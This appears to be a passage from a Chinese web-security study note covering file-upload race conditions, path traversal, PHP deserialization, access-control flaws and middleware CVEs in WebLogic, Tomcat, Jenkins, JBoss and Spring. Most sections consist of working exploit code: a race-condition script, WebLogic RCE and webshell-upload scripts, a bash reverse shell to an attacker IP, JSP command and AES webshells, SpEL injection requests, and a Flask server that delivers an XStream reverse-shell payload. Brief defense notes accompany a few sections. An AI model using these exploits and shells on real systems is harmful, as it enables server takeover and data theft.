    }
}
class DataInputStream {
    private $binData;
    private $order;
    private $size;
    public function \_\_construct($filename, $order = false, $fromString = false) {
        $this->binData = '';
        $this->order = $order;
        if(!$fromString) {
            if(!file\_exists($filename) || !is\_file($filename))
                die('File not exists ['.$filename.']');
            $this->binData = file\_get\_contents($filename);
        } else {
            $this->binData = $filename;
        }
        $this->size = strlen($this->binData);
    }
    public function seek() {
        return ($this->size - strlen($this->binData));
    }
    public function skip($skip)
    {
        $this->binData = substr($this->binData, $skip);
    }
    public function readByte() {
        if($this->eof()) {
            die('End Of File');
        }
        $byte = substr($this->binData, 0, 1);
        $this->binData = substr($this->binData, 1);
        return ord($byte);
    }

    public function readShort() {
        if(strlen($this->binData) < 2) {
            die('End Of File');
        }
        $short = substr($this->binData, 0, 2);
        $this->binData = substr($this->binData, 2);
        if($this->order) {
            $short = (ord($short[1]) << 8) + ord($short[0]);
        } else {
            $short = (ord($short[0]) << 8) + ord($short[1]);
        }
        return $short;
    }

    public function eof() {
        return !$this->binData||(strlen($this->binData) === 0);
    }
}
?>


```

先上传一张jpg图片然后下载到本地重命名为`2.jpg`，再用jpg脚本生成`payload_2.jpg`

```
php jpg二次渲染.php a.jpg
a为文件名
```


### 例题 ctfshow162（session文件包含、.user.ini、条件竞争）

上传.user.ini

```
GIF89a
auto_append_file="png"
```

上传png

```
GIF89a
<?=include"/tmp/sess_yu22x"?>
```


开始条件竞争

```python
import requests
import threading

session = requests.session()
sess = 'yu22x'
url1 = "http://16f6ee60-9195-4806-b871-09dbfcc9d1c1.challenge.ctf.show/"
url2 = "http://16f6ee60-9195-4806-b871-09dbfcc9d1c1.challenge.ctf.show/upload"
data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac ../f*");?>'
}
file = {
    'file': 'yu22x'
}
cookies = {
    'PHPSESSID': sess
}


def write():
    while True:
        r = session.post(url1, data=data1, files=file, cookies=cookies)


def read():
    while True:
        r = session.get(url2)
        if 'flag' in r.text:
            print(r.text)


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()

```


### 

### 后果

上传后门到后台从而进行连接，对文件进行操作

读取源码，分析漏洞

### 防护

- 使用白名单限制上传文件类型
- 使用更严格的文件类型检查方式
- 限制web server对上传文件夹的解析

## 任意文件下载

### 原理

对收到的文件名不做安全判断，从而达成目录穿越下载

### 复现


### 后果

下载源文件，获取关键代码

## 目录遍历

### 原理

是通过使用 `../` 等目录控制序列或者文件的绝对路径来访问存储在文件系统上的任意文件和目录，特别是应用程序源代码、配置文件、重要的系统文件等。

### 攻击载荷

#### URL参数

- ../ 
- ..\
- ..;/

#### Nginx Off by Slash

- `https://vuln.site.com/files../`

#### UNC Bypass

- `\\localhost\c$\windows\win.ini`

### 过滤绕过

- 单次替换：...//
- URL编码
- 16位Unicode编码：\u002e
- 超长UTF-8编码：\%e0%40%ae

### 复现

### 后果

访问存储在文件系统上的任意文件和目录，特别是应用程序源代码、配置文件、重要的系统文件等

### 防御

在进行文件操作相关的API前，应该对用户输入做过滤。较强的规则下可以使用白名单，仅允许纯字母或数字字符等。

若规则允许的字符较多，最好使用当前操作系统路径规范化函数规范化路径后，进行过滤，最后再进行相关调用

## 反序列化漏洞

### 原理

也是字符串的一种利用，由于代码序列化后的内容是一串字符串，这样的话我们就可以自己去构造闭合创造出我们需要的代码，再经过反序列化输入后端，并执行，从而实现攻击

### 序列化格式

```
布尔值：b:value=>b:0
整数型：i:value => i:1
字符串型：s:length:"value" => s:4:"aaaa"
数组型：a:<length>:{key,value pairs}; => a:1:{i:1;s:1:"a"}
对象型：O:<class_name_length>:
NULL型：N
```

### 属性修饰符

```
public无标记，变量名不变，长度不变: s:2:“op”;i:2;

protected在变量名前添加标记%00*%00，长度+3: s:5:"%00*%00temp";i:2;

private在变量名前添加标记%00(classname)%00，长度+2+类名长度: s:7:"%00ccc%00temp";i:2;


在存在私有属性的变量序列化时，序列化的字符串时，在变量左右会出现乱码，
是因为private的原因，但会直接显示为空格，所以需要手动增加%00作为标识
```

### 魔术方法

各种魔术方法的触发

```
__construct()//当一个对象创建时被调用

__destruct() //当一个对象销毁时被调用

__toString() //当一个对象被当作一个字符串使用

__sleep() //执行serialize()时，先会调用这个函数

__wakeup() //执行unserialize()时，先会 调用这个函数(通过序列化对象元素个数不符来绕过)

__get()//访问一个对象不存在的变量时就会被触发

__set()//给一个对象不存在的变量赋值时就会被触发

__isset()//当对不可访问属性调用isset()或empty()时调用

__unset()//当对不可访问属性调用unset()时被调用

__invoke()//调用函数的方式调用一个对象时的回应方法

__call()//当调用一个对象中的不存在的方法的时候就会执行这个函数

__clone()//当一个对象被克隆时调用

__unserialize() //当一个序列化后的对象，看过unserialize函数时，该函数会将
                  将序列化的数据传给__unserialize，且如果存在该魔术方法
                  就不会调用__wakeup,只调用__unserialize

__autoload()，尝试加载未定义的类

__debugInfo()，打印所需调试信息

__set_state()，调用var_export()导出类时，此静态方法会被调用

还要补充一个基础的知识，->是php中的运算符。
```

### 序列化过程

```php
<?php
class A
{
    var $a = "a";
    var $b = "b\r\n";

    function __construct()
    {
        $this->a = "123";
        echo "初始化时调用\r\n";
    }

    function __destruct()
    {
        echo "销毁时调用--";
        echo $this->a . "\r\n";
    }
}
$b = new A();
#$ser serialize($b);
#echo $ser;
$ser_test = 'O:1:"A":1:{s:1:"a";s:4:"test";}';
$unser = unserialize($ser_test);
echo $b->b;
?>
```

先把A类实例化成$b，触发构造函数__construct()，打印了初始化时调用，并把$a设置成123

接着运行，这里的反序列化不会有任何输出，以为他没有调用构造函数也没销毁，但是生成了一个A类的反序列化对象。（为什么序列化对象生成没有触发构造函数）

最后会走到echo $b->b这里，输出此时实例化的对象$b->b的值，也就是b
然后脚本结束，先销毁反序列化对象$unser，输出销毁时调用，此时反序列化对象的$a是test，接着销毁实例化对象$b，也是同理

### php7.1 + 反序列化对类属性不敏感

前面说了若变量前修饰符是protected，序列化结果会在变量名前加上\x00*\x00，但在特定版本7.1以上则对于类属性不敏感，例如下面例子即使没有\x00\*\x00也依然会输出abc

```php
<?php
class test{
protected $a;
public function __construct(){
$this->a = 'abc';
}
public function __destruct(){
echo $this->a;
}
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');
```


输出了abc

再来一道例题说明

#### [网鼎杯 2020 青龙组]AreUSerialz

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

代码微长，慢慢分析

先对类进行分析，找到利用链

进入construct方法


### 复现

```
O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```


### 后果

利用代码漏洞，可以实现命令执行，文件上传，文件读取，xss等等一系列有关函数的操作

# 逻辑漏洞

## 水平越权

### 原理

权限校验的逻辑不够严谨导致的，更换某个id之类的身份标识符，如下文复现的username，使A账户获取B账户的信息

### 复现

在pikachu靶场里，先登录一个账户，点击查看个人信息，观看url

发现是根据username去查询的个人信息，那么我们将其改成另一个账户名


### 后果

暴露其他人的个人信息

## 垂直越权

### 原理

使用低权限用户发送高权限所具有的功能，获取高权限的操作

### 复现

登录管理员账户，进行添加用户功能，并抓取数据包，然后放包显然创建成功

保留之前抓取的数据包

然后进入普通账户

截取普通用户页面的cookie，并修改之前所抓包的cookie


再次放包

发现增添了用户

### 后果

获取更高权限用户的功能

## 未授权访问

### 原理

未对访问功能做权限的效对，或者限制不全，导致对用户的限制只局限于某一个功能和操作上

### 复现

#### redis未授权访问

不输入密码，只存在host地址

<br/>


发现可以连接访问


### 危害

- 泄露用户信息，系统信息
- 执行系统命令，操作系统文件

## 会话标志固定漏洞

### 原理

网站或应用程序在用户登录时分配的会话标识符（Session ID）是固定不变的，而不是在每次会话中都重新生成

### 复现

先登录用户


然后读取cookie


sessionID  fixedSessionID

然后登出

再去访问登录后的网址

提示我们要登陆，这时把之前获取的cookie增添上


刷新即可登陆成功


<br/>

### 危害

利用该会话标识符去接管用户的账户，执行危险操作

# 中间件漏洞

## IIS

### IIS6.0 PUT漏洞

#### 原理

利用put方法向服务器上传恶意文件，控制服务器

#### 复现

IISPutScannner工具扫描目标地址

上传文件


数据包格式选择PUT，选择asp一句话木马，点击提交数据包：


然后数据包格式选择MOVE，再次点击提交数据包，此时可得到webshell路径：


使用菜刀连接我们的webshell:


成功获得服务器权限。

#### 危害

利用put方法向服务器上传恶意文件，控制服务器

### IIS6.0解析漏洞

#### 基于文件名

IIS6.0默认不解析;号后面的内容，例如1.asp;.jpg会当成1.asp解析，相当于分号截断。


#### 基于文件夹

IIS6.0会将/*.asp/文件夹下的文件当成asp解析。


## Apache

### 路径穿越漏洞(CVE-2021-41773)

可以用于读取web目录外的其他文件，如系统配置文件、网站源码等

第二个点编码成%2e，从而未识别，绕过检查，使得..成立

#### 复现

在https://vulfocus.cn/启动相应的环境，直接抓包，然后添加目录穿越的路径，发现确实实现了目录穿越，读取到了/etc/passwd


### CVE-2021-42013(命令执行漏洞)

从利用方式上看该漏洞把 CVE-2021-41773漏洞的%2e的2e再一次url编码，而%2e解码后是‘.’，再此漏洞通过把2e两次url编码可绕过修复Apache HTTP Server 2.4.49漏洞的补丁

<br/>

相当于就是说去调用了/bin/sh去执行命令

#### 复现

payload

```
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Content-Type: application/x-www-form-urlencoded

echo;ls
```


## Nginx

### 目录穿越漏洞

就是简单的..


### cve_2021_23017

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```


## Jenkins

### 远程命令执行漏洞 CVE-2018-1000861

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```


### Jenkins CLI 接口任意文件读取漏洞 CVE-2024-23897

启动环境后，访问8080端口

并下载自带的poc：http://your-vps-ip:8080/jnlpJars/jenkins-cli.jar下载

然后执行对应命令读取文件


## Weblogic

### Weblogic 管理控制台未授权远程命令执行漏洞 CVE-2020-14882+CVE-2020-14883


访问http://123.58.224.8:20924/console/css/%252e%252e%252fconsole.portal，直接进入后台管理系统


但是此时我们是低权限用户，无法执行任意代码

上poc

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)
```

进行反弹shell

```
python cve-2020-14882.py -u http://123.58.224.8:20924 -c "bash -i >& /dev/tcp/192.168.239.128/9999 0>&1"
```


### 任意文件上传漏洞 CVE-2018-2894.

目录设置为ws_utc应用的静态文件css目录，访问这个目录是无需权限的


然后点击安全 -> 增加，然后上传webshell：


上传后，查看返回的数据包，其中有时间戳：


访问ws_utc/css/config/keystore/[时间戳]_[文件名]，即可执行webshell


exp

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

from __future__ import print_function
from builtins import str
import re
import sys
import time
import argparse
import requests
import traceback
import xml.etree.ElementTree as ET


def get_current_work_path(host):
    geturl = host + "/ws_utc/resources/setting/options/general"
    ua = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0'}
    values = []
    try:
        request = requests.get(geturl)
        if request.status_code == 404:
            exit("[-] {}  don't exists CVE-2018-2894".format(host))
        elif "Deploying Application".lower() in request.text.lower():
            print("[*] First Deploying Website Please wait a moment ...")
            time.sleep(20)
            request = requests.get(geturl, headers=ua)
        if "</defaultValue>" in request.content:
            root = ET.fromstring(request.content)
            value = root.find("section").find("options")
            for e in value:
                for sub in e:
                    if e.tag == "parameter" and sub.tag == "defaultValue":
                        values.append(sub.text)
    except requests.ConnectionError:
        exit("[-] Cannot connect url: {}".format(geturl))
    if values:
        return values[0]
    else:
        print("[-] Cannot get current work path\n")
        exit(request.content)


def get_new_work_path(host):
    origin_work_path = get_current_work_path(host)
    works = "/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css"
    if "user_projects" in origin_work_path:
        if "\\" in origin_work_path:
            works = works.replace("/", "\\")
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects\\domains"
            dir_len = len(current_work_home.split("\\"))
            domain_name = origin_work_path.split("\\")[dir_len]
            current_work_home += "\\" + domain_name + works
        else:
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects/domains"
            dir_len = len(current_work_home.split("/"))
            domain_name = origin_work_path.split("/")[dir_len]
            current_work_home += "/" + domain_name + works
    else:
        current_work_home = origin_work_path
        print("[*] cannot handle current work home dir: {}".format(origin_work_path))
    return current_work_home


def set_new_upload_path(host, path):
    data = {
        "setting_id": "general",
        "BasicConfigOptions.workDir": path,
        "BasicConfigOptions.proxyHost": "",
        "BasicConfigOptions.proxyPort": "80"}
    request = requests.post(host + "/ws_utc/resources/setting/options", data=data, headers=headers)
    if "successfully" in request.content:
        return True
    else:
        print("[-] Change New Upload Path failed")
        exit(request.content)


def upload_webshell(host, uri):
    set_new_upload_path(host, get_new_work_path(host))
    files = {
        "ks_edit_mode": "false",
        "ks_password_front": password,
        "ks_password_changed": "true",
        "ks_filename": ("360sglab.jsp", upload_content)
    }

    request = requests.post(host + uri, files=files)
    response = request.text
    match = re.findall("<id>(.*?)</id>", response)
    if match:
        tid = match[-1]
        shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
        if upload_content in requests.get(shell_path, headers=headers).content:
            print("[+] {} exists CVE-2018-2894".format(host))
            print("[+] Check URL: {} ".format(shell_path))
        else:
            print("[-] {}  don't exists CVE-2018-2894".format(host))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))


if __name__ == "__main__":
    start = time.time()
    password = "360sglab"
    url = "/ws_utc/resources/setting/keystore"
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", dest='target', default="http://127.0.0.1:7001", type=str,
                        help="target, such as: http://example.com:7001")

    upload_content = "360sglab test"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'X-Requested-With': 'XMLHttpRequest', }

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.target

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        upload_webshell(target, url)
    except Exception as e:
        print("[-] Error: \n")
        traceback.print_exc()
```

## JBoss

### JBoss 4.x JBossMQ JMS 反序列化漏洞 CVE-2017-7504

ysoserial的eCommonsCollections5利用链来复现。生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser

```

我们将1.ser文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```


### JBoss JMXInvokerServlet 反序列化漏洞 CVE-2015-7501

直接上工具DeserializeExploit.jar


## Tomcat

### Apache Tomcat PUT方法任意写文件漏洞 CVE-2017-12615

Tomcat配置了可写，从而实现往服务器写入文件，发送以下数据包

```
PUT /2.jsp/ HTTP/1.1
Host: 192.168.239.128:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>");
    }
%>


```


然后访问2.jsp，传入参数和对应目录即可

### Tomcat8 - 弱口令与后台上传getshell的漏洞复现

tomcat manager登录界面存在弱口令漏洞，登陆成功后有上传点，压缩包xxx.war的.war不会被解析，直接访问xxx/里面的一句话路径，拿shell

```
msfconsole
```


寻找与tomcat相关模块

```
search tomcat
```


使用auxiliary/scanner/http/tomcat_mgr_login 模块

```
use auxiliary/scanner/http/tomcat_mgr_login 
```

查看填写参数

```
show options
```


设置目标主机

```
set rhosts 192.168.239.128
```

并爆破

```
run
```


带有+号的即为爆破成功的账号密码


那么账密都知道了，开始登录

选择上传点

将带有一句话的111.jsp文件压缩成zip，并且将压缩后的zip文件改名为111.war

jsp 一句话木马，密码为pass

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

上传该war文件，然后访问

出现500，那么就可以冰蝎连接


## Spring

### Spring Cloud Function SpEL表达式命令注入 CVE-2022-22963

发送数据包，包含SpEL表达式

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```


然后查看容器可发现success文件被创建


### Spring Cloud Gateway Actuator API SpEL表达式注入命令执行 CVE-2022-22947

发送数据包，添加包含恶意SpEL表达式的路由

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```


然后应用刚添加的路由，去触发SpEL表达式

```
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

查看结果

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```


## Springboot

### whitelabel error page SpEL RCE

探测执行点

发现我们输入的8*8被运行后输出了

那么说明存在该漏洞

```
touch /tmp/success1   # 创建文件指令
```

将其base64编码后

```
bash -c {echo,dG91Y2ggL3RtcC9zdWNjZXNzMQ==}|{base64,-d}|{bash,-i} #将指令编译成base64
```

然后将其改为java字节形式

```python
# coding: utf-8

result = ""
target = 'bash -c {echo,dG91Y2ggL3RtcC9zdWNjZXNzMQ==}|{base64,-d}|{bash,-i}'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))

```

开始执行命令

```java
/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x62,0x61,0x73,0x68,0x20,0x2d,0x63,0x20,0x7b,0x65,0x63,0x68,0x6f,0x2c,0x64,0x47,0x39,0x31,0x59,0x32,0x67,0x67,0x4c,0x33,0x52,0x74,0x63,0x43,0x39,0x7a,0x64,0x57,0x4e,0x6a,0x5a,0x58,0x4e,0x7a,0x4d,0x51,0x3d,0x3d,0x7d,0x7c,0x7b,0x62,0x61,0x73,0x65,0x36,0x34,0x2c,0x2d,0x64,0x7d,0x7c,0x7b,0x62,0x61,0x73,0x68,0x2c,0x2d,0x69,0x7d}))}
```


创建成功

### eureka xstream deserialization RCE

搭建环境

```
https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce
```

搭建好后启动环境，访问env

利用条件

```
可以 POST 请求目标网站的 /env 接口设置属性
可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starteractuator 依赖）
目标使用的 eureka-client  < 1.8.7（通常包含在 spring-cloud-starter-netflix-eurekaclient 依赖中）
目标可以请求攻击者的 HTTP 服务器（请求可出外网）
```

架设响应恶意XStream payload网站

```python
#!/usr/bin/env python
#coding: utf-8
#-**- Author: LandGrey -**-
from flask import Flask, Response
app = Flask(__name__)
@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
 <jdk.nashorn.internal.objects.NativeString>
   <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
     <dataHandler>
       <dataSource 
class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
         <is class="javax.crypto.CipherInputStream">
           <cipher class="javax.crypto.NullCipher">
             <serviceIterator class="javax.imageio.spi.FilterIterator">
               <iter class="javax.imageio.spi.FilterIterator">
                 <iter class="java.util.Collections$EmptyIterator"/>
                 <next class="java.lang.ProcessBuilder">
                   <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>python -c 'import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connec
t(("your-vps-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'</string>
                   </command>
                   <redirectErrorStream>false</redirectErrorStream>
                   </next>
               </iter>
               <filter class="javax.imageio.ImageIO$ContainsFilter">
                 <method>
                   <class>java.lang.ProcessBuilder</class>
                   <name>start</name>
                   <parameter-types/>
                 </method>
                 <name>foo</name>
               </filter>
               <next class="string">foo</next>
             </serviceIterator>
             <lock/>
           </cipher>
           <input class="java.lang.ProcessBuilder$NullInputStream"/>
           <ibuffer></ibuffer>
         </is>
       </dataSource>
     </dataHandler>
   </value>
 </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')
if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)

```

日常监听端口

设置eureka.client.serviceUrl.defaultZone 属性

spring1.x

```
> POST /env
>  Content-Type: application/x-www-form-urlencoded
> eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example

```

2.x

```
> POST /actuator/env 
> Content-Type: application/json
> {"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vpsip/example"}

```

然后刷新配置

1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

2.x

```
POST /actuator/refresh
Content-Type: application/json
```

最后即可连接o//
